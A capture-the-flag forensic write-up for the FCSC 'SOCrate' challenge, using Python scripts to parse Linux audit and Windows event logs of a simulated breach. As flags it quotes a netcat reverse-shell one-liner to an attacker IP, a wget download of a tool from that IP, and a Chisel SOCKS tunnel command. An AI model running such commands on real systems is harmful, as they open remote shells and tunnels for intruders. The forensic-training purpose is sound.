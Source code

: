 # SOCrate

## Description

In June 2023, an operator of vital importance falls victim to an attack that compromises its entire information system. You received the Linux and Windows logs and must answer the investigators’ questions.

This challenge is part of a serie. The parts are numbered in the chronological order of the attack, but it is not necessary to solve them in order.

## Solution

## 1 Technologie

Global search `/var/www` you can find it as `/var/www/app/banque_paouf`. So `FCSC{/var/www/app/banque_paouf}`.

### 2 Reverse Shell

Use following script to collect all executed command lines under Linux:

```python
import pathlib

target_path = "./socrate/linux"
target_path = pathlib.Path(target_path).resolve()
all_cmds = set()
for file in target_path.glob("**/*.log"):
    with open(file, "r", encoding="utf-8") as f:
        for line in iter(f.readline, ""):
            if "EXECVE" in line:
                line = ''.join(line.split("argc=")[1:])
                line = line.split(" ")
                if line[0] == "":
                    continue
                argc = int(line[0])
                line = line[1:]
                cmd = ""

                try:
                    for l in line:
                        if l.startswith("a"):
                            cmd += ''.join(''.join(l.split("=")[1:]).removesuffix("\n").removeprefix('"').removesuffix('"').removesuffix("\n")) + " "
                        else:
                            cmd += l
                    all_cmds.add(cmd.strip())
                except:
                    all_cmds.add(str(line))

with open("all_cmds.txt", "w", encoding="utf-8") as f:
    for cmd in all_cmds:
        f.write(cmd + "\n")
```

Then search for `sh` or `bash`. I found a suspicious line: `/bin/bash -c 726D202F746D702F663B6D6B6669666F202F746D702F663B636174202F746D702F667C2F62696E2F7368202D6920323E26317C6E632038302E3132352E392E3538203530303131203E2F746D702F66` which lead to the flag: `FCSC{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 80.125.9.58 50011 >/tmp/f}`.

### 3 Outil téléchargé

By searching the IP `80.125.9.58` from last flag in the all command lines file, I found `wget http://80.125.9.58:80/text` and `sudo ./text client -v 80.125.9.58:4444 R:socks`.  
Then I google `program with "R:scoks"` and I found [Chisel](https://github.com/jpillora/chisel). So flag is `FCSC{http://80.125.9.58:80/text|chisel}`.

### 4 Latéralisation

use following script to extract all commands executed in Windows:

```python
import glob
from evtx import PyEvtxParser
import os

evts_fs = glob.glob("socrate/windows/*.evtx")
# os.mkdir("socrate/evtx_json")

for f in evts_fs:
    parser = PyEvtxParser(f)
    for record in parser.records_json():
        with open(f"socrate/evtx_json/{f.split('/')[-1]}.json", "w") as outfile:
            outfile.write(record["data"])

```

by converting all `.evtx` file to JSON format. Then global search `ldap` we can find the domain `DC01-SRV.cipherpol.gouv`. Then keep searching `DC01-SRV.cipherpol.gouv` we can find the ip `172.16.42.10`. Then the flag is `FCSC{172.16.42.10|DC01-SRV.cipherpol.gouv}`.

## 5 and 6

I didn't make it in contest :/  

